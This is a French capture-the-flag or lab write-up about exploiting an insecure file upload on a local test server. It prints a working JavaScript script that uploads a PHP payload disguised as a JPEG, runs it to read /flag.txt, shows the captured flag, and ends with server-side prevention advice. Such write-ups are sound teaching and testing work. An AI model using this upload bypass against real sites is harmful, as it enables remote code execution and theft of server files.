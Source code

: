 # Exploitation de la faille d'Upload de Fichier

## 1. Introduction
J'ai exploité une faille de sécurité liée à l'upload de fichiers sur la page **Upload**. Cette faille permettait de **contourner les restrictions** sur les types de fichiers acceptés en faisant passer un fichier **PHP malveillant** pour une **image JPEG**. J'ai ainsi pu exécuter du code sur le serveur et obtenir le **flag**.

---

## 2. Découverte de la faille
En accédant à la page :
```
http://10.211.55.2/index.php?page=upload
```
J'ai remarqué que le formulaire d'upload acceptait les fichiers en vérifiant uniquement leur extension (`.jpg`, `.png`, etc.) sans vérifier le contenu réel du fichier.


---

## 3. Exploitation de la faille
### **Objectif :**
Uploader un fichier **PHP** malveillant pour l'exécuter sur le serveur.

### **Méthode utilisée :**
J'ai utilisé la **console du navigateur** pour injecter un fichier **PHP** en tant que **faux fichier JPEG** grâce à un script `fetch()`.

---

## 4. Script utilisé

```js
async function uploadPHP() {
    const url = "http://10.211.55.2/index.php?page=upload";

    // Création du faux fichier image en PHP
    const phpPayload = "<?php echo 'Flag: ' . file_get_contents('/flag.txt'); ?>";
    const blob = new Blob([phpPayload], { type: "image/jpeg" });
    const formData = new FormData();
    formData.append("uploaded", blob, "test.php");
    formData.append("Upload", "Upload");

    try {
        const response = await fetch(url, {
            method: "POST",
            body: formData
        });

        const text = await response.text();
        console.log("Réponse du serveur :", text);

        // Vérification d'une potentielle URL pour exécuter le fichier PHP uploadé
        const match = text.match(/href="(uploads\/[^\"]+\.php)"/);
        if (match) {
            const uploadedUrl = "http://10.211.55.2/" + match[1];
            console.log("URL du fichier uploadé :", uploadedUrl);

            // Exécution du fichier PHP pour obtenir le flag
            const result = await fetch(uploadedUrl);
            const resultText = await result.text();
            console.log("Résultat du fichier PHP :", resultText);
        } else {
            console.log("Aucun fichier PHP détecté dans la réponse.");
        }
    } catch (error) {
        console.error("Erreur lors de l'upload :", error);
    }
}

uploadPHP();
```

---

## 5. Explication du Script

1. **Création du Faux Fichier** :
    - Utilisation d'un **Blob** contenant du **PHP** avec un type **image/jpeg** pour contourner la vérification côté client.

2. **Injection via FormData** :
    - Le fichier est injecté dans un **FormData** comme s'il s'agissait d'une image.

3. **Envoi avec fetch()** :
    - La requête **POST** est envoyée pour **uploader** le fichier.

4. **Analyse de la réponse** :
    - Le script **recherche un lien** vers le fichier uploadé pour tenter de l'exécuter.

5. **Exécution du fichier PHP** :
    - Si le fichier PHP est trouvé, il est exécuté pour obtenir le **flag**.

---

## 6. Résultat
Le fichier PHP a été uploadé et exécuté avec succès, affichant le **flag** :

```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

### **Capture d'écran du Flag :**
![Flag](images/1.png)

---

## 7. Impact de la faille
Cette faille permet à un attaquant de :
- **Exécuter du code arbitraire** sur le serveur.
- **Accéder à des fichiers sensibles** comme `/flag.txt`.
- **Prendre le contrôle du serveur** en uploadant un shell PHP.

---

## 8. Prévention de la faille
Pour éviter cette vulnérabilité :
- **Vérifier le type MIME côté serveur** :
    ```php
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mimeType = finfo_file($finfo, $_FILES['uploaded']['tmp_name']);
    if ($mimeType !== 'image/jpeg' && $mimeType !== 'image/png') {
        die("Type de fichier non autorisé.");
    }
    ```
- **Limiter les extensions de fichier** (`.jpg`, `.png`) et **changer leur nom**.
- **Désactiver l'exécution de PHP** dans le dossier d'uploads :
    ```apache
    <Directory "/var/www/html/uploads">
        php_admin_flag engine off
    </Directory>
    ```

---

## 9. Correction de la faille
Pour corriger cette faille :
- **Utiliser des vérifications côté serveur**.
- **Désactiver les scripts exécutables dans le dossier d'uploads** via `.htaccess` :
    ```apache
    <FilesMatch "\.(php|pl|py|cgi)$">
        Deny from all
    </FilesMatch>
    ```

---

